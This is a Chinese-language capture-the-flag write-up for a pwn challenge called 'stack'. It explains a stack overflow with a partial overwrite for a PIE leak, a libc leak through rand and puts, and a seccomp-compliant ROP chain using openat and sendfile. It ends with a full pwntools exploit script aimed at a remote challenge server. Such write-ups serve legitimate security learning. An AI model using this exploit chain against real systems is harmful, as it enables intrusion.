



# stack

> 听说你很喜欢栈溢出？

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.11|

## seccomp rules



## 解题思路

程序有两个stage，第一个stage会设置seccomp限制，紧接着在第二个stage让用户输入内容到堆上，
随后控制rsp到堆上。观察读入位置和rsp，我们是可以操作栈溢出的。

查找程序内的其他未使用的函数，发现有一个函数能泄露stage 1存放的`main`函数的地址。
原先将其乘以了3或4，猜测一下就可以。打印完地址后会继续执行stage 2。
这个函数的开始地址与stage 2返回时的地址（`main`函数）只有最后一个字节不同，
第一次输入我们可以使用Partial Write去泄露。

> [!TIP]
> 由于`printf`内会使用xmm寄存器，因此要求栈对齐，我们可以跳过`sub rsp, 8`来保持栈对齐。

为了继续泄露libc，需要寻找一些gadget，然而程序中只有设置rdx的函数，以及`pop rax`，
仍然不好泄露。并且在stage 2返回时，rdi还是0，不好调用`puts`。我们知道调用函数时，
rdi是可变的，可能某个函数能帮我们设置rdi呢？试试plt中参数不影响运行的函数，
正好`rand`函数会设置rdi，然后可以使用`puts`来泄露libc。接着再rewind回stage 2。



那么已知libc以后，根据沙箱限制，只要做 `openat(AT_FDCWD, "/flag", 0, 0)` 和
`sendfile(1, 3, NULL, 0x50)` 就可以把flag打印出来了。

> [!NOTE]
> 这道题的环境怪得很，必须要国内网络才能访问，否则无法发送任何内容过去，
> 其他题都没有这个问题

## EXPLOIT

```python
from pwn import *
from pwnlib.rop import gadgets
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './Stack_Over_Flow'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 23522)
    elf = ELF(EXE)
    libc = elf.libc

    # stage 2 hack 1
    t.sendafter(b'Good luck', b'\0' * 0x108 + p8(0x5f)) # keep stack aligned

    t.recvuntil(b'magic number:')
    number = int(t.recvline())
    main = number // 3
    if main & 0xff != 0xb0:
        main = number // 4

    pie_base = main - 0x16b0
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base

    # stage 2 hack 2
    second = pie_base + 0x161f
    t.sendafter(b'Good luck', flat(b'\0' * 0x108, elf.plt['rand'], elf.plt['puts'], second))
    libc_base = (u64(t.recvuntil(b'\nWelcome', True)[-6:] + b'\0\0') & ~0xff) - 0x21a200 # randtbl
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # back to second
    gadgets = ROP(libc)
    chain = flat([
        gadgets.rdi.address, 0,
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0x20, 0, # pop rdx; pop rbx
        libc.symbols['read'],
    ], [
        gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0,
        libc.symbols['openat'],
    ], [
        gadgets.rdi.address, 1,
        gadgets.rsi.address, 3,
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0x50,
        libc.symbols['sendfile'],
    ], [
        gadgets.rdi.address, 0,
        libc.symbols['exit'],
    ])

    # stage 2 hack 3
    t.sendafter(b'Good luck', b'\0' * 0x100 + chain)
    sleep(0.125)
    t.send(b'/flag\0')

    t.recvuntil(b'{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')
    t.close()
```


